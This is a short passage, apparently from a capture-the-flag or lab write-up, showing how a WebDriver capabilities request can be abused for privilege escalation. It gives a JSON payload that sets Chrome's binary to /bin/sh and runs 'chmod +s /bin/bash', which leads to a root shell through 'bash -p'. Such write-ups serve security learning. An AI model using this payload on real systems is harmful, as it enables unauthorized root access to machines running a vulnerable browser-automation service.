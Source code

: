 But we can also pass in extension capabilities that change the browser-spawning behaviour.

<figure><img src="../../.gitbook/assets/Screenshot 2022-12-06 at 1.21.29 AM.png" alt=""><figcaption></figcaption></figure>

In our case, we can specify the `binary` and `args` Chrome options to run any command as `root`.

```json
{
    "capabilities": {
        "alwaysMatch": {
            "browserName": "chrome",
            "goog:chromeOptions": {
                "binary": "/bin/sh",
                "args": ["-c", "chmod +s /bin/bash"]
            }
        }
    }
}
```

In this case we gave SUID permissions to `/bin/bash`, allowing us to run `bash -p` to get a root shell.

<figure><img src="../../.gitbook/assets/Screenshot 2022-12-06 at 1.32.36 AM.png" alt=""><figcaption></figcaption></figure>
